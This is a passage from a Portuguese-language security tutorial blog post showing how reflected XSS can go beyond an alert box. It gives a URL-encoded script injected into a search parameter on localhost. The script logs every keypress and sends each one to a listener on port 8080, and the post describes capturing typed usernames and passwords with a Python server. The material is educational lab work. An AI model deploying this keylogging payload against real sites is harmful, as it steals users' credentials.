 Gerando a seguinte URL:

- [http://localhost/09/?search=%3Cscript%3E%0A%09document.onkeypress%20%3D%20function%20KeyLogger%28inp%29%20%7B%0A%09%09key_pressed%20%3D%20String.fromCharCode%28inp.which%29%3B%0A%09%09new%20Image%28%29.src%20%3D%20%22http%3A%2F%2F0.0.0.0%3A8080%2F%3F%22%2Bkey_pressed%3B%0A%09%7D%0A%3C%2Fscript%3E](http://localhost/09/?search=%3Cscript%3E%0A%09document.onkeypress%20%3D%20function%20KeyLogger%28inp%29%20%7B%0A%09%09key_pressed%20%3D%20String.fromCharCode%28inp.which%29%3B%0A%09%09new%20Image%28%29.src%20%3D%20%22http%3A%2F%2F0.0.0.0%3A8080%2F%3F%22%2Bkey_pressed%3B%0A%09%7D%0A%3C%2Fscript%3E)

Podemos iniciar um *Python server* na porta 8080 configurada para ouvir a requisição feita.

![Servidor Python ouvindo](/img/posts/2023-06-21-beyond-the-alert-13.png)

Ao acessar a página, nenhuma alteração é visível, porém, ao preencher os campos de usuário e senha, a cada tecla pressionada, uma requisição será feita para *Python server* contendo seu valor.


![Resultado](/img/posts/2023-06-21-beyond-the-alert-25.png)
